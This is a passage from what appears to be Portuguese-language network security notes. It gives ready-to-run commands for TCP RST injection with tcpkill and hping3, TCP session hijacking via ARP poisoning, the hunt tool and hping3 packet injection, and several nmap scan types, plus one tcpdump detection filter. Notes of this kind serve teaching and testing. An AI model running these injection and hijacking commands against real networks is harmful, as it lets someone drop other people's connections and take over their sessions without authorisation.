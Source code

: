 **2. TCP Reset Attack**

Injeção de pacote RST para derrubar conexão.

```bash
# tcpkill (dsniff) - matar conexões TCP
sudo tcpkill -i eth0 host 192.168.1.100

# hping3 - enviar RST
sudo hping3 -R -p 80 -a 192.168.1.100 192.168.1.200
# Requer conhecer Seq/Ack numbers corretos

# Detecção
sudo tcpdump -i eth0 'tcp[tcpflags] & tcp-rst != 0'
```

**3. TCP Session Hijacking**

Sequestro de sessão TCP ativa.

```bash
# Requisitos:
# 1. Sniffar tráfego (ARP poisoning)
# 2. Obter Seq/Ack numbers
# 3. Injetar pacotes com números corretos

# hunt - ferramenta de hijacking
sudo hunt

# Capturar Seq/Ack
sudo tcpdump -i eth0 'tcp and host 192.168.1.100' -nS

# Injetar com hping3
sudo hping3 -A -p 80 -s 54321 -M $SEQ -L $ACK \
    -d 100 -E payload.txt 192.168.1.100
```

**4. TCP Port Scanning**

```bash
# SYN Scan (stealth) - não completa handshake
sudo nmap -sS -p- 192.168.1.100

# Connect Scan (completo) - completa handshake
nmap -sT -p 1-65535 192.168.1.100

# FIN Scan - envia FIN sem conexão
sudo nmap -sF -p- 192.168.1.100

# XMAS Scan - FIN, PSH, URG
sudo nmap -sX -p- 192.168.1.100

# NULL Scan - sem flags
sudo nmap -sN -p- 192.168.1.100

# ACK Scan - detectar firewall
sudo nmap -sA -p- 192.168.1.100

# Respostas:
# Porta aberta (SYN scan): SYN-ACK
# Porta fechada: RST
# Porta filtrada: sem resposta ou ICMP unreachable
```
